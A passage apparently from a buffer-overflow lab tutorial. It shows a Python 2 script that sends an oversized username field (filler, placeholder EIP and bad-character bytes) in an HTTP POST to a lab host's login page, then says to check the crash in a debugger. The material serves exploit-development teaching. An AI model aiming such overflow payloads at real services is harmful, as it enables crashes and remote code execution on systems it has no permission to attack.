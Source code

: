 ```python

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "B" * 4
    offset = "C" * 4
    
    inputBuffer = filler + eip + offset + badchars
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()

```

### Verify the crash, then right-click the ESP and 'Follow in Dump'